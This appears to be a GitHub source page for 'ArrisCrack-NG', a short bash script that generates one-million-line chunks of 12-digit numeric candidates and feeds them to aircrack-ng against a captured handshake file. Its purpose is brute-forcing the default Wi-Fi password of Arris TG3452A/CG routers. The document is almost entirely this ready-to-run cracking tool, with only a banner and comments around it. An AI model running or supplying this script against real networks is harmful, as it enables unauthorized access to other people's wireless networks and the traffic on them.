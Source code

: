 # ArrisCrack-NG
#Default Password Testing Script that interacts with Aircrack-NG for Arris TG3452A/CG 


#!/bin/bash



echo ▄▀█ █▀█ █▀█ █ █▀ █▀▀ █▀█ ▄▀█ █▀▀ █▄▀ ▄▄ █▄░█ █▀▀
echo █▀█ █▀▄ █▀▄ █ ▄█ █▄▄ █▀▄ █▀█ █▄▄ █░█ ░░ █░▀█ █▄█
 
                                                                   


                                    

#Generate 1 million possible default passwords for Arris TG3452A/CG 
#to use with half handshake hash capture.
#Repeat until cracked. This model uses a 12 digit numeric default password.




# Define the range of 12-digit numbers
start=000000000000
end=999999999999

# Define the number of lines per output file (1 million lines)
lines_per_file=1000000

# Calculate the total number of files needed
total_files=$(( (end - start + 1) / lines_per_file ))

# Prompt the user to specify the path to the target file
read -p "Enter the path to the target file for aircrack-ng: " target_file

# Validate that aircrack-ng is installed
if ! command -v aircrack-ng &>/dev/null; then
  echo "aircrack-ng is not installed. Please install it and try again."
  exit 1
fi

# Prompt the user to select an output file number
echo "Total files available: $total_files"
read -p "Select an output file number (1 to $total_files): " file_number

# Validate user input
if (( file_number < 1 || file_number > total_files )); then
  echo "Invalid file number. Please select a number between 1 and $total_files."
  exit 1
fi

# Calculate the starting and ending points for the selected output file
start_range=$((start + (file_number - 1) * lines_per_file + 1))
end_range=$((start_range + lines_per_file - 1))

# Generate the numbers and write them to the selected output file
output_file="numbers_file$file_number.txt"

for ((i = start_range; i <= end_range; i++)); do
  printf "%012d\n" "$i"
done > "$output_file"

echo "File $output_file created with $lines_per_file lines."

# Use aircrack-ng to search for a match in the target file
echo "Searching for a match in $target_file using aircrack-ng..."
aircrack-ng -w "$output_file" "$target_file"

echo "Search completed."
